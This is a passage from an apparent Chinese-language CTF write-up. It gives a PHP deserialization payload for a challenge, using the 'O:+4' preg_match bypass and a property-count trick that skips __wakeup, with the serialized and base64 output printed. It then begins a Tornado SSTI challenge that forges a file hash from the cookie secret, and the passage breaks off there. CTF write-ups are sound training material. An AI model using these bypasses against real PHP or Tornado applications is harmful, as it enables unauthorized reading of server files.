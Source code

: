![](https://img-blog.csdnimg.cn/2021030717410599.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

payload：

```bash
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
    $A = new Demo('fl4g.php');
    $C = serialize($A);
    //string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
    $C = str_replace('O:4', 'O:+4',$C);  //绕过preg_match
    $C = str_replace(':1:', ':2:',$C);     //绕过wakeup
    var_dump($C);
    //string(49) "O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}"
    var_dump(base64_encode($C));
    //string(68) "TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ=="
?>

```

---
## easytornado
- 考点：tornado SSTI

![](https://img-blog.csdnimg.cn/20210307174352718.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

```
 flag in /fllllllllllllag
 render
 md5(cookie_secret+md5(filename))
```

![](https://img-blog.csdnimg.cn/2021030717451510.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

观察上图得我们需要构造的 url 为：

file?filename=/flllllllag&filehash=xxxxxxxx

而 filehash= md5(cookie_secret+md5(/fllllllllag))
